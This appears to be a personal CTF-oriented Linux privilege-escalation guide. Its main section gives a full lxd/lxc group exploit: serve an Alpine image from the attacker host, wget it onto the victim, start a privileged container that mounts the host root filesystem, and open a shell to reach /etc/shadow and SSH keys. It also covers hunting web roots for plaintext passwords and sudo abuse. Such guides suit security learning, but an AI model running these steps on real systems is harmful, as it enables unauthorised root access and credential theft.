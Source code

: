# Linux Privesc 
﷽
* Guide / methodology on linux privesc.

## Groups exploitation
* Find groups the user is part of with the `id` command
* Try to find binaries in that group:
  * `find / -group {group-name} 2>/dev/null`
* If there are binaries, check the privileges of them and what type of file it is:
  * `ls -la {filename} && file {filename}`
* In my case, there was a `suid` set on that binary, which is a promising exploitation path (head over to `suid.md` for a guide :)
### `lxd`/`lxc` group exploit
[ref](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.html#lxdlxc-group---privilege-escalation)
* `LXD` is a management API for dealing with `LXC` containers on Linux systems.
* A member of the local `lxd` group ***can instantly privesc to root*** on the host OS.
  * This is irrespective of whether the user has been granted `sudo` rights and there is no password prompt.
#### how it works
* Check if you’re in the lxd group:
  * If yes, you can control LXD and create containers.
* Launch a container (Alpine Linux) using LXD:
  * Think of this like booting up a mini-computer.
* Mount the host’s root filesystem (/) into the container:
  * Using LXD features, tell it: “Hey, give this container access to the host's actual files!”
* Inside the container, you now have access to the host filesystem:
  * You can go into /mnt/root/ (or whatever you mount it as) and access real host files like /etc/shadow, /root/.ssh/, etc.
* Now you can add a new root user, overwrite passwords, or drop in SSH keys.
  * Since you're inside and the host filesystem is mounted, you can change files on the host.
* Exit the container, login as root (or with your new user), and boom: you’re root on the host.
#### guide
* as `LXC` is a container thingy like `docker` we will use a lightweight image.
* alpine linux is good for this :)

* firstly, download the pre-built alpine linux image off the [`lxc` containers repo.](https://images.lxd.canonical.com/)
* use the latest image with the right architecture.
* download the two required files:
  * `lxd.tar.xz` – Contains metadata and configuration for the LXC/LXD image.
  * `rootfs.squashfs` – Contains the root filesystem of the Alpine image.
* now, host the files on your computer for download on victim:
  * `python3 -m http.server 8000`
* get the files on victim's computer:
  * `wget http://{ip}:8000/lxd.tar.xz`
  * `wget http://{ip}:8000/root.squashfs`
* `ls -la` to ensure they have successfully been uploaded.
* now, import the image using the LXC CLI tool:
  * `lxc image import lxd.tar.xz rootfs.squashfs --alias alpine`
* verify with `lxc image list`
* *now, set the `security.privileged` flag to `true` so the container has the same privileges as `root`:*
  * `lxc init alpine privesc -c security.privileged=true`
* *mount the root file system in the container on the `/mnt`:*
  * `lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true`
* ***now, start the container and issue a shell within :)***
  * `lxc start privesc`
  * `lxc exec privesc /bin/sh`
* in my case, the flag was in `/mnt/root/root`.

## PHP/SQL servers, and their plaintext passwords.
* Navigate to `/var/www/html`
  * `cd /var/www/html`
* `cat *` and look for plaintext credentials
## sudo exploits.
* list the sudo privileges our user is assigned with `sudo -l`.
* it is rarely a good idea to let a user run a binary as `sudo`. this is because default binaries on linux often contain parameters that when passed through, can run commands as root.
* https://gtfobins.github.io/ is an amazing website for this.

